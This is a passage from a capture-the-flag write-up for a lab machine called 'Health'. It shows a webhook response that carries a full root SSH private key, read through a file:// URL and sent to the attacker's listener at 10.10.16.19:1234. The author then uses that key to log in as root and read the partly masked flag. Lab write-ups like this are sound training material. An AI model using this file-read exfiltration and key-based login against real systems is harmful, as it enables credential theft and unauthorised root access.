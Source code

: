 ```console
{"webhookUrl":"http:\/\/10.10.16.19:1234","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```

Make you ssh file and change the permissions and we are logged in as root!

```console
└─$ ssh root@10.129.62.210 -i id_rsa
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  7 15:52:39 UTC 2022

  System load:  0.0               Processes:           182
  Usage of /:   66.3% of 3.84GB   Users logged in:     1
  Memory usage: 12%               IP address for eth0: 10.129.62.210
  Swap usage:   0%


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@health:~# cat /root/root.txt 
dce53***************************
```
Had alot of help with this one, struggled with the hashing part. Felt like alot of work for the level of this box.

GG!
